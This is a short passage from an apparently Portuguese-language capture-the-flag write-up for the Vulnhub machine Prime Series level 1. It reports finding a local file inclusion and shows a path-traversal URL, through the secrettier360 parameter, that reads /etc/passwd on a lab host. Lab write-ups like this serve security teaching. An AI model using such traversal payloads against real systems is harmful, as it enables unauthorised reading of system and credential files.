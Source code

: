 ![](/assets/img/Vulnhub/Prime_Series_level-1/secrettier360.png)


## LFI


* Conseguimos um LFI na aplicacao depois de seguir todas as dicas. Bom... agora conseguimos dar uma olhada no **/etc/passwd**

```
http://192.168.150.113/image.php?secrettier360=../../../../../../etc/passwd
```
